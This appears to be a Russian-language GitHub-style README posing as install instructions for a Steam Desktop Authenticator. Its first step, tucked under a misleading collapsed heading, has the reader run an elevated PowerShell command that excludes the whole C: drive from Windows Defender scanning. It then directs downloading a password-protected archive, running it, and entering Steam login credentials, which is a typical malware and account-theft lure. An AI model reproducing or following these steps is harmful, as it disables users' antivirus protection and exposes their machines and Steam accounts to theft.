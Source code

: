 # Steam Desktop Authenticator

📖 В этой статье я расскажу вам, как это сделать. 👇

                                                   🔧Установка 

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение файлов Steam</summary>

Нажмите Win+R и введите команду
`powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"`

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите Steam Desktop Authenticator

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите SDA, и напишите логин пароль

Шаг 5 ✏️

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
